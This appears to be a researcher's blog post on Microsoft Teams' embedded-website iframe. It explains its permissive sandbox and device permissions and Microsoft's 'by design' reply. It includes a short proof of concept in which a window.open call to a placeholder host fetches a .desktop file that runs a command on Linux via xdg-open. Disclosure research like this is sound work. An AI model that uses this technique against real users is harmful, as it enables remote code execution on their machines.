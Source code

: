```yaml
---
layout: post
title:  "Microsoft Teams Vulnerabilities and Features!"
description: Lets talk about Microsoft Teams and Iframes!
tags: Research
---
```

# Microsoft Teams ~~Vulnerabilities~~ Features! 

In this article, I will gonna talk about research that me and my friends [Bigous], [Waid], and [Bee] made in Microsoft Teams a few time ago. This research, although it did not become a bounty, was a very interesting experience that taught us a lot about researching hardened software.

## Iframe
The Iframe, how it works, and the possible vulnerabilities that we can find in this tag is the main part of this entire research. 

While looking for interesting features in the application, we've got the feature of adding websites to add a site for other users to see. So, we decided to take a look into this iframe code:
```html
<iframe ng-if="ctrl.frame && ctrl.frame.type == 'iframe' && ctrl.frame.ready" ng-class="{'embedded-iframe-loading': ctrl.showLoadingIndicator}" title="" class="embedded-iframe embedded-page-content" name="embedded-page-container" sandbox="allow-forms allow-modals allow-popups allow-popups-to-escape-sandbox allow-pointer-lock allow-scripts allow-same-origin allow-downloads" allow="geolocation *; microphone *; camera *; midi *; encrypted-media *" data-tid="embeddedPageContainerIframe" acc-tabbable="true" allowfullscreen="" src="//website.com"></iframe>
```
As you can see, this iframe has a few interesting attributes, being the most interesting: 
- The allow attribute with the values "geolocation *; microphone *; camera *; midi *; encrypted-media *"
- The sandbox attribute with the value "allow-popups-to-escape-sandbox"

So, let's talk about what each of these attributes does exactly.

![](https://i.imgur.com/uLq35b4.png)

## The allow attribute
Now, if you are not a web developer you are possibly wondering what the allow attribute does. This specifies a resource policy for the iframe, i.e., it specifies which permissions can be passed from the scope of the parent site to the iframe.

As said before we can abuse the allow attribute: `allow="geolocation *; microphone *; camera *; midi *; encrypted-media *"` to gain access to the browser APIs. The problem is that when a site inside the iframe asks for authorization to access these devices, the authorization request comes from 'teams.microsoft.com', not from the iframe's website, usually by using Teams calls the user has already given these authorizations, so a site inside the iframe can have access to those APIs without permission.

![](https://i.imgur.com/awKK3r3.png)

## The sandbox attribute

The sandbox attribute has the value “allow-popups-to-escape-sandbox” set, which means that we can use popups out of the iframe scope, enabling us to escape the sandbox! The popups can be called with the function window.open(), this basically will open another tab in the Teams scope, but this can't only be used to open common URLs, we can use it to open up other applications instead of the system’s default browser eg: calculator://, mailto://, ms-word://... This could be very interesting since the desktop application uses electron. We can also try to manipulate the DOM and try to do some tricks like seen [here][ms-teams-rce], but we are "blocked" from accessing the DOM, limiting a lot the attack surface. 

### URI schemas

The first thing I think in this type of attack exploring URI schemas is to try to use the file:// protocol, and that's what we tried as soon we realized this possible attack vector, and obviously that doesnt work, this protocol was blocked in the electron, so we need try for another way. Another really cool idea is to use the smb:// protocol to possibly get RCE in the victim or to steal him NTLM hash, but that's disabled too.

After a few time researching about URI protocol schemas, we've found [this article][positive-security], I really recommend that you read it, because that shows us a lot of tricks to use in situations like this.

### RCE on Linux?

From the cited article, the idea of using xdg-open to call a remote .desktop, thus executing code on the victim’s machine seemed like a very interesting one, and that is what we did. So, when our victim access the application part with the Iframe, we’ve successfully achieved Remote Code Execution (in a good part of linux distros).

When we use window.open() pointing to some website with a ‘.desktop’ file, it gets executed, running the command described in the file, for the PoC, we just used the gnome-calculator command, that in a real scenario, could be a malicious Linux command.

![](https://i.imgur.com/QguuccH.png)

Code used in Website:
```htmlembedded=
<script>
window.open('https://yourwebsite.com/poc.desktop')
</script>
```

"poc.desktop" contents:
```htmlembedded=
Desktop Entry]
Version=1.0
Type=Application
Name=RCE
Comment=
Exec=gnome-calculator
Icon=
Path=
Terminal=false
StartupNotify=false
```

### And on Windows?

For obvious reasons the xdg-open will not work in Windows, so we need a different approach to get RCE in it. Unfortunately, we have tried everything on Windows, but we didn't find anything that can lead to a 0 click RCE on Microsoft Teams running on Windows.

But we can already get Remote Code Execution by exploiting vulnerabilities in third-party applications, like [this vulnerability in steam's protocol][steam], [this vulnerability in WinSCP][winscp], or even the CVE 2021-40444 in Microsoft Word.

And we can also use Click-Once applications with 'microsoft-edge://' protocol to get a 1 click RCE, but I will not go deeper into this.

# Microsoft's response

After about a month that we’ve contacted Microsoft, they’ve sent us an email with the following message:

In this case this would be by design functionality. The users are allowed to load external content in that location as a feature. The inability to access the DOM limits the actions of the attacker. We do note, that the window could be clearer in starting that it is external content, and we have forwarded this information over to the product's functional team for review for future versions. For now we are closing this case out as this is currently how this function is intended to work.

# Conclusion

Although Microsoft says it doesn't see this as a security issue, it was a very fun, and very unusual, learning experience that forced me to study a widely used and hardened application.


# References:
1. https://positive.security/blog/url-open-rce
2. https://0x00sec.org/t/using-uri-to-pop-shells-via-the-discord-client/11673
3. https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml
4. https://github.com/oskarsve/ms-teams-rce
5. https://docs.microsoft.com/visualstudio/deployment/publishing-clickonce-applications

[ms-teams-rce]: https://github.com/oskarsve/ms-teams-rce
[positive-security]: https://positive.security/blog/url-open-rce
[steam]: http://revuln.com/files/ReVuln_Steam_Browser_Protocol_Insecurity.pdf
[winscp]: https://nvd.nist.gov/vuln/detail/CVE-2021-3331
[Bee]: https://twitter.com/beescoitu
[Bigous]: https://github.com/viniciuspereiras
[Waid]: https://www.linkedin.com/in/rafaellresende/